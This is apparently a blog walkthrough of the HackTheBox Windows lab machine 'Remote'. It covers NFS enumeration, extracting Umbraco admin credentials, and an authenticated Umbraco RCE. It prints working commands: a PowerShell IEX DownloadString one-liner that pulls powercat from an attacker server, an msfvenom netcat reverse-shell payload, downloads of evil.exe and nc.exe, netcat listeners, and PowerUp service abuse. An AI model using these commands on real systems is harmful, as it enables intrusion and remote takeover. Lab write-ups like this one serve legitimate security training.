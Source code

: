 ```yaml
---
layout: post
title: HackTheBox Remote walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, powercat, powerup, nfs, netcat, powershell, windows, msfvenom, oscp]
comments: true
---
```


Remote is a HacktheBox windows machine with the ip address 10.10.10.180. Rated as easy on the platform, this machine is highly [CVE](https://cve.mitre.org/about/cve_and_nvd_relationship.html) oriented and similar of what you would encounter in an OSCP exam. I got a foothold on the machine using an authenticated remote code execution on the web server and elevate my privilege through an insecure file permission vulnerability. This box is fun and great to get familiar with windows privilege escalation.

![info_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3b4dc061e2b548afb1e48a934e076f09.png)


# Enumeration

I started with multiple port scans.
## Port scans

![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/b7bc801733c0425ab5820880a68c5c86.png)


![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c6a91f46435c4725bc4b7c6678a4d996.png)


A lot of ports were opened and the enumeration phase can be very time consuming in a penetration test. In order to manage my time efficiently, I spent no longer than 30 minutes on each port and focus my attention in this order:
- Port 80/5985/47001 because they are webservers.
- Port 21, Anonymous login is allowed I might be to upload or download files.
- Port 111/2049 NFS is insecure by design and drives are mounted.
- Port 445 - Samba or SMB can provide very useful information but I need credentials to log in.
- Other ports ...

### Port 80

I found a login page using Umbraco CMS.

![umbraco_login_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16a50ddcc8054aa5b2bb76c7e12826c8.png)

### Port 111

Network File System (NFS) allow users on client computers to access files over the network as if they were on locally mounted storage. NFS is insecure by design. It's not uncommon to see storage open to the world because of miss configurations.

I used NSE Nmap scripts to discover the name of the mount directory.

![nfs_nse_sancs.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16cf451fc34d48f58e8d9fb9c7ecd362.png)

I mount the remote drive to a directory.
```bash
mkdir site-backups
sudo mount -o nolock 10.10.10.180:/site-backups $PWD/site-backups
```

Found the file Umbraco database in a compact file format ([SDF](https://fileinfo.com/extension/sdf)). *This was the most tricky part in my opinion, things could become difficult without the knowledge of this file format*.

![found_umbraco.sdf.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8e6c12f1220145e49ab23e099404e464.png)

I extracted the credentials from the raw data and decrypt the password hash [online](https://md5decrypt.net/Sha1/).

![database_content.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/889460b74eb44aa6881903bfcbceaa13.png)

Clair text password:
```plaintext
username: admin@htb.local
password: baconandcheese 
```


# Foothold

I found Umbraco CMS verson with `grep -iR "7.12.4"`. This version were vulnerable to an [authenticated remote code execution](https://www.exploit-db.com/exploits/46153) so I downloaded [noraj Umbraco POC](https://github.com/noraj/Umbraco-RCE). Since I didn't know what was the privileges of the user I was exploiting I executed the `powercat.ps1` script without saving the file on the remote file system by combining the **DownloadString** methode with the Invoke-Expression cmdlet ([**IEX**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)).

Listen for connections:
```bash
sudo nc -lnvp 4444
```

Modified powercat script. Replace the Xs with your ip address.
```bash
cp /usr/share/windows-resources/powercat/powercat.ps1 .
echo 'powercat -c X.X.X.X -p 4444 -e cmd.exe' >> powercat.ps1
```

Extended the powercat directory to be accessible from the server.
```bash
sudo python3 -m http.server
```

Exploit umbraco vulnerability.
```bash
sudo python3 Umbraco-RCE/exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/powercat.ps1')"
```

![foothold_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/31186d2bc4ed47d3bd4bdec20ba4040d.png)

# Privilege escalation

**Insecure file permission** on services that run as `nt authority\system` are often an easy way to elevate privileges. 

I created a binary with **msfvenom** to replace the vulnerable service.
```bash
msfvenom -p windows/x64/exec CMD="C:\Windows\Temp\nc.exe -e cmd.exe X.X.X.X 9001" -f exe -o evil.exe
```

In order to execute all the Powershell commands in the same session, I opened a Powershell interpreter and moved to a writable directory.
```powershell
powershell.exe
cd c:\windows\temp
```

HarmJ0y `PowerUp.ps1` script from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) github repository is an awnsome tool. It uses several tehcniques base on misconfugurations such as unquoted services paths and improper permission on service executables to attent elevate privileges.

I upload PowerUp script into the server and executed Invoke-AllChecks function.
```powershell
iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/PowerUp.ps1')
Invoke-AllChecks
```


![Invoke-AllChecks.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/23ebf8a49b9a47c3b0318d62251b45bc.png)



Downloaded the binary and netcat to the server.
```powershell
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/evil.exe', 'c:\\Windows\\Temp\\evil.exe')
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/nc.exe', 'c:\\Windows\\Temp\\nc.exe')
```

Open a port for reverse shell connections on my machine.
```bash
sudo nc -lvnp 9001
```

And finaly executed `Invoke-ServiceAbuse` function to run the exploit.
```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\Windows\Temp\evil.exe'
```



![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/ddb212d55d1446a4b37e3c57c8b606c8.png)

Thanks for reading !

# References
- [https://fileinfo.com/extension/sdf](https://fileinfo.com/extension/sdf)
- [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)
- [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [https://md5decrypt.net/Sha1/](https://md5decrypt.net/Sha1/)
- [https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)
- [https://cve.mitre.org/about/cve_and_nvd_relationship.html](https://cve.mitre.org/about/cve_and_nvd_relationship.html)
